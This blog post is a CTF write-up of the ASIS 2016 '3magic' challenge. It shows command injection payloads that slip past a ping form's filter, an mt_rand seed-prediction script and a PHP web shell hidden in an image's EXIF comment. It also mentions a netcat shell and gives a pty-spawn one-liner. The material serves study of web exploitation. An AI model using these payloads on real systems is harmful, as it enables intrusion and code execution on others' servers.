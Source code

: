 ```yaml
---
layout: post
title: "ASIS CTF 2016: 3magic"
category: Security
date: 2016-05-08
tags:
  - Security
  - CTF
---
```


We're directed to a web application that provides us with the ability to ping an
arbitrary host.  Like many such web interfaces, this one is vulnerable to
[command injection](https://www.owasp.org/index.php/Command_Injection).  We can
provide flags like -v to get the version of ping being used, but inserting other
characters, like `|`, `;`, or `$()` result in a response of `invalid character
detected`.  Notably, so do spaces and tabs, significantly limiting the ability
to run commands (we'll see how to get around this shortly).

![ping](/img/blog/asis-2016/3magic_start.png)

I spent some time testing various characters and discovered that neither
ampersands nor newlines were included in the filter set, so these could be used
to separate commands.  I could quickly list the files in the current directory
with `&ls`, but couldn't figure out a way to traverse directories.

~~~
files
index.php
pages
~~~

One of my [teammates](http://fadec0d3.blogspot.com/) discovered that you could
use brace expansion to add command arguments, so `&{ls,pages}` lets us list the
pages directory:

~~~
Adm1n1sTraTi0n2.php
ping.php
~~~

`Adm1n1sTraTi0n2.php` looks interesting, but I'd really like to see the source.
Several attempts to get source result in an error of `addr is too long`, which
seems to occur at 15 characters.  Eventually, we hit upon the idea of using the
command `grep -Hr . .` to grep for every line of every file in the current
directory and below.  This looks like `&{grep,-Hr,.,.}` and gives us the source
of every file we're looking at (though not in a very pretty format).  I've
cleaned them up below.

###index.php###
~~~
<html>
<head>
  <title>3magic</title>
<body>
  <li>
    <a href='?page=ping'>ping</a>
  </li>
  <?php
    if ($_SERVER['REMOTE_ADDR'] == '127.0.0.1') {
  ?>
      <li>
      <a href='?page=???'>admin</a>
      </li>
  <?php
    }
  ?>
  <hr>
  <?php
  if (isset($_GET['page'])) {
    $p = $_GET['page'];
    if (preg_match('/(:\/\/)/', $p)) {
      die('attack detected');
    }
    include("pages/".$p.".php");
    die();
  }
  ?>
</body>
</html>
~~~

###ping.php###
~~~
<p>ping</p>
<form action="./?page=ping" method="POST">
  <input type="text" name="addr" placeholder="addr">
  <input type="submit" value="send">
</form>
<textarea style="width: 300px; height: 300px" placeholder="result">
<?php
if (isset($_POST['addr'])) {
  $addr = $_POST['addr'];
  if (preg_match('/[`;$()| \/\'>"\t]/', $addr)) {
    die("invalid character detected");
  }
  if (strpos($addr, ".php") !== false){
    die("invalid character detected");
  }
  if (strlen($addr) > 15) {
    die("addr is too long");
  }
  @system("timeout 2 bash -c 'ping -c 1 $addr' 2>&1");
}
?>
</textarea>
~~~

###Adm1n1sTraTi0n2.php###
~~~
<p>image inspector</p>
<?php
mt_srand((time() % rand(1,10000) + rand(2000,5000))%rand(1000,9000)+rand(2000,5000));
// files directory flushed every 3min
setcookie('test', mt_rand(), time(), '/');
if (isset($_POST['submit'])) {
  $check = getimagesize($_FILES['file']['tmp_name']);
  if($check !== false) {
    echo 'File is an image - ' . $check['mime'];
    $filename = '/var/www/html/3magic/files/'.mt_rand().'_'.$_FILES['file']['name']; // prevent path traversal
    move_uploaded_file($_FILES['file']['tmp_name'], $filename);
    echo "<br>\n";
    system('/usr/bin/file -b '.escapeshellarg($filename));
    echo "<br>\n";
  } else {
    echo "File is not an image";
  }
}
?>
<form action="?page=Adm1n1sTraTi0n2" method="post" enctype="multipart/form-data">
  Select image to upload:
  <input type="file" name="file">
  <input type="submit" value="Upload Image" name="submit">
</form>
~~~

So, we have a file upload with validation to test if the image is, in fact, an image.
(`getimagesize` is pretty hard to fake.)  We can upload arbitrary files, but I'm not
sure if we can get them included thanks to the detection of slashes in the include in
index.php.  There's also the small matter of predicting the value of `mt_rand()` used
in the filename.  On second glance, I realize there's nothing stopping us from
uploading a file whose extension is `.php`, but there's still the matter of
`mt_rand()`.  It actually took me several minutes before I noticed the cookie
being set, leaking a value from `mt_rand()`.  I know `mt_rand` isn't secure and
should be predictable, but I'm not sure how to do it.

It turns out there's a [tool out there](http://download.openwall.net/pub/projects/php_mt_seed/) to find the seed from a returned value of
`mt_rand`, except it turns out it takes about 10 minutes on my laptop.  I
realized the `mt_srand` call to seed `mt_rand` looked a little bit funny with
all the math.  Working it through, I realized that, rather than a full 2**32
range for the seed, the entire working range is only between 3000 and 14000.
With this range, it turned out a small PHP script was a better option to figure
out the next `mt_rand` value:

~~~
<?PHP
for($i=3000;$i<=14000;$i++) {
  mt_srand($i);
  if (mt_rand() == $argv[1]) {
    print mt_rand();
    print "\n";
    break;
  }
}
~~~

With this tool, I was able to predict full filenames, and could upload images
with the extension `.php`.  To get code execution, I added `<?PHP
passthru($_GET['x']); ?>` as the EXIF comment in a JPEG image and uploaded it as
a `.php` file.  I was quickly able to confirm both that my script and the PHP
embedded worked by listing the directory.

Now, to find the flag.  It wasn't in the working directory or the document root,
so I checked the root of the system, and found a file named `flag`, but it
turned out it was only readable by the user `flag`, and I was running as
`www-data`.  However, it turned out that there was also a program `/read_flag`,
but attempting to call it from my PHP shell resulted in a Segmentation Fault.
So I started a shell with netcat, and tried from this shell.  Still, a
segmentation fault.  Maybe it needed a pty?  Fortunately, there's a nice python
one-liner to allocate a pseudo terminal: `python -c "import pty;pty.spawn('/bin/bash')"`
Running `/read_flag` from this point gave results:

~~~
www-data@web-tasks:~/html/3magic/files$ /read_flag
/read_flag
Write "*please_show_me_your_flag*" on my tty, and I will give you flag :)
*please_show_me_your_flag*
*please_show_me_your_flag*
ASIS{015c6456955c3c44b46d8b23d8a3187c}
~~~
